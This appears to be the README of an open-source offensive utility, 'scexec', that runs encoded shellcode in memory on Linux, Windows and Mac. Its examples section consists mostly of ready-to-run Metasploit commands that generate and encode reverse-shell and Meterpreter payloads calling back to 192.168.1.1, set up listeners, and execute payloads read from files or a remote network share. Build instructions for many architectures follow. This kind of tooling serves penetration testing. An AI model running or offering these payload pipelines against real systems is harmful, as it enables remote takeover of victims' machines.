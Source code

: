 scexec
======

Portable utility to execute in memory a sequence of opcodes

Features
========

- Linux/Windows/Mac support
- Visual C/C++, gcc, mingw32/mingw64 support
- Raw/Alphanumeric/Base64/UUdecode support
- Commandline argument/File support

Examples
========

## Linux target

    $ msfpayload linux/x86/shell_reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.1.1 R | msfencode -a x86 -e x86/alpha_mixed -t raw BufferRegister=EAX
    $ msfcli multi/handler PAYLOAD=linux/x86/shell_reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.136.1 E
    $ ./scexec <msfencode's alphanumeric-encoded payload>

## Windows target

    msfpayload windows/meterpreter/reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.1.1 R | msfencode -a x86 -e x86/alpha_mixed -t raw BufferRegister=EAX
    msfcli multi/handler PAYLOAD=windows/meterpreter/reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.1.1 E
    C:\> scexec.exe <msfencode's alphanumeric-encoded payload>

## Windows target with base64

    msfpayload windows/meterpreter/reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.1.1 R | perl utils/base64encode.pl
    msfcli multi/handler PAYLOAD=windows/meterpreter/reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.1.1 E
    C:\> scexec.exe b <msfpayload-base64encoded-payload>

## Linux target with uudecode/uuencode

    $ msfpayload linux/x86/shell_reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.1.1 R | perl utils/uuencode.pl
    $ msfcli multi/handler PAYLOAD=linux/x86/shell_reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.136.1 E
    $ ./scexec u <msfpayload-uuencoded-payload>

## Few more quick examples

Read and execute payload from filename msfpayloadfn.raw:

    C:\> scexec.exe f msfpayloadfn.raw

Read and execute base64 encoded payload from filename msfpayloadfn.base64:

    C:\> scexec.exe fb msfpayloadfn.base64

Read and execute uuencoded payload from share:

    C:\> \\192.168.1.1\\scexec.exe fu \\192.168.1.1\\msfpayload.uuencoded

Options explained
=================

Options can be combined:

no options - read alphanumeric shellcode from commandline

a - execute shellcode through call eax/rax

f - read shellcode from file

b - treat input shellcode as base64 encoded

u - treat input shellcode as uuencoded shellcode


Building
========

### Linux/Mac/POSIX builds

Just type:

    make

### Mingw builds:

32 bit:

    make CC=i686-w64-mingw32-gcc STRIP=i686-w64-mingw32-strip OUT=scexec32.exe

64 bit:

    make CC=x86_64-w64-mingw32-gcc STRIP=x86_64-w64-mingw32-strip OUT=scexec64.exe

### Visual Studio:

32 bit:

    nmake /f Makefile.vc

64 bit:

    nmake /f Makefile.v64

### Builds

    make CC=i386-mingw32-gcc STRIP=i386-mingw32-strip OUT=../bin/scexec-win32.exe
    make CC=i686-w64-mingw32-gcc STRIP=i686-w64-mingw32-strip OUT=../bin/scexec-win32c.exe
    make CC=x86_64-w64-mingw32-gcc STRIP=x86_64-w64-mingw32-strip OUT=../bin/scexec-win64.exe
    make CC=gcc STRIP=strip OUT=../bin/scexec-macosx-x64-dyn.bin
    make CC=armeb-linux-gcc STRIP=armeb-linux-strip CFLAGS=-static OUT=../bin/scexec-armeb-linux.bin
    make CC=arm-linux-gcc STRIP=arm-linux-strip CFLAGS=-static OUT=../bin/scexec-arm-linux-static.bin
    make CC=mips-linux-gcc STRIP=mips-linux-strip CFLAGS=-static OUT=../bin/scexec-mips-linux-static.bin
    make CC=mipsel-linux-gcc STRIP=mipsel-linux-strip CFLAGS=-static OUT=../bin/scexec-mipsel-linux-static.bin


Credits
=======

Vlatko Kosturjak

Based on Bernardo Damele A. G. shellcodeexecute

